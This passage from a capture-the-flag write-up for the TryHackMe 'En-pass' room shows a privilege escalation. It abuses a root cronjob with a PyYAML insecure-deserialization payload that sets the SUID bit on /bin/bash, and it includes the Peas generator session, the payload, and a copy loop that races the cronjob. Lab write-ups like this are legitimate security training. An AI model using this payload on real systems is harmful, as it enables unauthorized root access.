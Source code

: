 Hmm... Looks like there is an interesting cronjob:

- Every 1 minute, a cronjob will be ran, which will change the `/tmp/file.yml` permission to `root`. **Then run `/opt/scripts/file.py` as root and remove `/tmp/file.yml`.**

Now, how can we abuse this?

According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization), we can use python Yaml library to exploit **insecure deserialization**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/En-pass/images/Pasted%20image%2020230101013726.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/En-pass/images/Pasted%20image%2020230101013732.png)

**Let's use [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) to generate our payload:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# python3 /opt/python-deserialization-attack-payload-generator/peas.py   
Enter RCE command :chmod +s /bin/bash
Enter operating system of target [linux/windows] . Default is linux :linux
Want to base64 encode payload ? [N/y] :N
Enter File location and name to save :./file
Select Module (Pickle, PyYAML, jsonpickle, ruamel.yaml, All) :PyYAML
Done Saving file !!!!
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# cat file_yaml
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - chmod
  - +s
  - /bin/bash
```

This payload will add a SUID sticky bit to `/bin/bash`, so we can spawn a Bash shell with SUID privilege (root).

**Let's create a `backup.yml` file in `/tmp`!**
```yaml
imsau@enpass:~$ nano /tmp/backup.yml
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - chmod
  - +s
  - /bin/bash
```

**Then use an inifite loop to copy the file to `/tmp/file.yml`:**
```
imsau@enpass:~$ while true;do cp /tmp/backup.yml /tmp/file.yml 2>/dev/null;done
```

**Finally, verify the `/bin/bash` has SUID sticky bit:**
```
imsau@enpass:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1014K Jul 12  2019 /bin/bash
```
